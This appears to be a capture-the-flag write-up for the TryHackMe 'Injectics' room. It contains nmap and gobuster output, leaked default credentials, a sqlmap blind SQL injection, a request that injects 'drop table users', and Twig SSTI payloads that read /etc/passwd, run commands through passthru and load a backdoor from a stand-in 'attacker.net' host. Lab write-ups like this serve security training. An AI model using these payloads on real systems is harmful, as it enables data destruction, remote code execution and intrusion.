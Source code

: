 <code>
  
## Injectics

https://tryhackme.com/r/room/injectics

### Enumeration

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-16 06:01 EST
Nmap scan report for 10.10.136.219
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 df:14:5e:7b:3c:5d:14:1e:a2:fb:8e:16:69:e8:1d:b7 (RSA)
|   256 d8:a2:ad:30:00:60:82:f1:a0:d9:8e:b8:50:93:65:7c (ECDSA)
|_  256 0f:50:9b:b7:2a:46:2c:d3:be:bb:dd:41:ee:d6:79:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Injectics Leaderboard
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.80 seconds


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.136.219 -x php,txt,html                                            

[+] Url:                     http://10.10.136.219
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 6592]
/.php                 (Status: 403) [Size: 278]
/login.php            (Status: 200) [Size: 5401]
/flags                (Status: 301) [Size: 314] [--> http://10.10.136.219/flags/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.136.219/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.136.219/js/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.136.219/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/vendor               (Status: 301) [Size: 315] [--> http://10.10.136.219/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> dashboard.php]
/functions.php        (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.136.219/phpmyadmin/]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/conn.php             (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 278]



### in source code found notice about mail.log

http://10.10.136.219/mail.log

from: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm


┌──(kali㉿kali)-[~/Documents/THM/THM_Injectics]
└─$ sqlmap -r reg1.txt --level 5 --risk=3 --dump     
        ___
       __H__                                                                                                        
 ___ ___["]_____ ___ ___  {1.8.11#stable}                                                                           
|_ -| . [(]     | .'| . |                                                                                           
|___|_  [)]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

starting @ 09:15:11 /2025-01-16/

[09:15:11] [INFO] parsing HTTP request from 'reg1.txt'

[09:15:11] [INFO] resuming back-end DBMS 'mysql' 

[09:15:11] [INFO] testing connection to the target URL

sqlmap resumed the following injection point(s) from stored session:
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=10.10.9.71' RLIKE SLEEP(5)-- hcXN&password=10.10.9.71&function=login
---
[09:15:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[09:15:11] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[09:15:11] [INFO] fetching current database
[09:15:11] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[09:15:13] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[09:15:13] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[09:15:13] [INFO] fetching database names
[09:15:13] [INFO] fetching number of databases
[09:15:13] [INFO] retrieved: 
[09:15:13] [ERROR] unable to retrieve the number of databases
[09:15:13] [INFO] falling back to current database
[09:15:13] [INFO] fetching current database
[09:15:13] [INFO] retrieved: 
[09:15:14] [CRITICAL] unable to retrieve the database names
[09:15:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.9.71'


http://injectics.thm/composer.json
equire	
twig/twig	"2.14.0"

http://injectics.thm//phpmyadmin/doc/html/index.html
phpMyAdmin 4.9.5

To get access to the admin panel for the challenge question, I need to delete the ‘users’ table. So I want to find somewhere to inject:

**drop table users -- -**

So inject in dashboard

POST /edit_leaderboard.php HTTP/1.1
Host: injectics.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://injectics.thm/edit_leaderboard.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 208
Origin: http://injectics.thm
Connection: keep-alive
Cookie: PHPSESSID=04v8k348jddp0b0d76n46c16cu
Upgrade-Insecure-Requests: 1

rank=2&country=&gold=7; drop table users -- -&silver=0&bronze=7

Found that first name item in http://injectics.thm/update_profile.php is SSTI vulneable with twig/twig	"2.14.0"

{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{['id',""]|sort('passthru')}}
{{['ls -la ./flags',""]|sort('passthru')}}

  
<\code>
